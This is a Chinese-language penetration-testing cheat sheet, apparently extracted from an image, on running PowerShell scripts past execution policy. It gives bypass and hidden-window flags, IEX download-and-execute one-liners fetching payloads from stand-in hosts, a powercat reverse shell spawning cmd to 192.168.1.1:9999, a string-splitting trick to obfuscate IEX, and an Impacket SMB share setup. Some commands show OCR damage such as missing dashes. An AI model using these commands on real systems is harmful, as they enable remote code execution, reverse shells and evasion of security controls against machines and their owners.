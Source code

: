 ## 命令行执行 ps1 文件 (绕过本地权限执行)

```powershell
powershell.exe -ExecutionPolicy bypass -File "C:\Users\XX\Desktop\test\test.ps1"
```

ExecutionPolicy Bypass: 绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell 的安全策略规定了 PowerShell 不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全保护规则。在渗透测试中，基本每次运行 PowerShell 脚本时都要使用这个参数。
* WindowStyle Hidden: 隐藏窗口。
* NoLogo: 启动不显示版权标志的 PowerShell.
* NonInteractive (-Nonl): 非交互模式，PowerShell 不为用户提供交互的提示。
* NoProfile (-NoP): PowerShell 控制台不加载当前用户的配置文件。
* Noexit: 执行后不退出 Shell。这在使用键盘记录等脚本时非常重要。

## 本地隐藏绕过权限执行脚本

```powershell
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden NoLogo -NonInteractive -NoProfile File "test.ps1"
```

## 远程下载并执行

```powershell
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.1/1/evil.txt'))"
```

```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.1.1/1/powercat.ps1'); powercat -c 192.168.1.1 -p 9999 -e cmd
```

**将命令拆分为字符串，然后进行拼接**
```powershell
powershell "$a='IEX(New-Object Net.WebClient).Downlo';$b='11(''https://xxx.com/payload/test/test.ps1'')'.Replace('11','adString');IEX ($a+$b)"
```

**用IEX下载远程PS1脚本绕过权限执行**
```powershell
PowerShell.exe -ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-NonI IEX(New-ObjectNet.WebClient).DownloadString("test.ps1");[Parameters]
```

---

# 白名单

## smb

kali 使用 Impacket
```bash
mkdir smb && cd smb
impacket-smbserver share `pwd`
```
